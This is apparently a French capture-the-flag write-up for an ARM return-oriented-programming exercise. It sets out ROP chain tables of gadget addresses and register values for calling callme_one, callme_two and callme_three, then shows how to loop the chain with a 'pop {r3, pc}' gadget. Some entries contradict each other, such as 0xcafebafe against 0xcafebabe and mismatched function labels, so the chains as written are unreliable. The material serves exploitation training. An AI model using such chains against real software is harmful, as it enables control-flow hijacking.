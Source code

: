 | ROP entry | comment |
| ----------- | ------- |
| 0x00010870 | pop {r0, r1, r2, lr, pc}
| 0xdeadbeef | r0
| 0xcafebafe | r1
| 0xd00df00d | r2
| 0x000108dc | lr : pop {r0, r1, r2, lr, pc}
| callme_one | callme_one |

ensuite on peut enchaîner

| ROP entry | comment |
| ----------- | ------- |
| 0xdeadbeef | r0
| 0xcafebabe | r1
| 0xd00df00d | r2
| 0x000108dc | lr : pop {r0, r1, r2, lr, pc}
| callme_one | callme_two |
| 0xdeadbeef | r0
| 0xcafebafe | r1
| 0xd00df00d | r2
| 0x000108dc | lr : 0 (sans importance)
| callme_one | callme_three |

### Optimisation pour l'automatisation.

Le "soucis" de la solution précédente est qu'elle est linéaire.
Sin on avait 100 appel de fonctions à réalsier on aimerait bien pourvoir générer les appels avec une boucle.

Pour que chaque séquence soit dientique et commence par le `pop {r0, r1, r2, lr, pc}` on peut placer dans le registe lr un gadget d'ajustement, idéalement une `pop {pc}`qui enchainerait sur la séquence. Mais ce gadget n'existe pas. On peut utliser un `pop {reg, pc}` qui existe et qui fara la même chose mais en consommant une entrée de la chaine pour charge le registre.

Ici on utilise un `pop {r3, pc}`.

On peut ainsi boucler sur nos trois adresses pour callme_xxx

| ROP entry | comment |
| ----------- | ------- |
| 0x00010870 | pop {r0, r1, r2, lr, pc}
| 0xdeadbeef | r0
| 0xcafebabe | r1
| 0xd00df00d | r2
| 0x000108dc | lr : pop {r3, pc}
| callme_xxx | callme_xxx |
| 0x90 | pour le pop r3 au retour de callme_one
